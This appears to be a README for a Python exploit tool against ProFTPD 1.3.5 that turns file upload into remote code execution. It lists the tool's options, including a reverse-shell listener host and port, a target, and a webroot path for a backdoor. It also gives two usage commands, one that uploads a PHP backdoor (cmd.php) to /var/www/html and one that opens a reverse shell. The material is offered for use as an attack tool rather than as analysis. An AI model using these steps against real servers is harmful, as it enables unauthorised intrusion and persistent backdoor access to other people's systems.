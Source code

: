# ProFTPD 1.3.5 File Upload to RCE exploit!


    ProFTPd 1.3.5 File Uploader
    Usage: ProFTPD.py [options]

    Options:
    -h, --help            show this help message and exit
    -l LHOST, --lhost=LHOST
                        Local IP Required for Reverse Shell,
    -p LPORT, --lport=LPORT
                        Port Required for Reverse Shell,
    -t TARGET, --target=TARGET
                        Vulnerable Target,
    -d DIRECTORY, --dir=DIRECTORY
                        WebRoot directory to Upload Backdoor,
    -c COMMAND, --command=COMMAND
                        System Command,
    -f FILE, --file=FILE  Backdoor Name,
    -s SHELL, --shell=SHELL
                        ReverShell Name,




STEP 1 - Upload Backdoor!

    Usage: python3 exploit.py -t 10.x.x.x -f cmd.php -d '/var/www/html'

STEP 2 - Get Shell! mere commodity! you can always curl your backdoor!

    Usage: python3 exploit.py -t 10.x.x.x -f cmd.php -l 172.x.x.x -l 4242
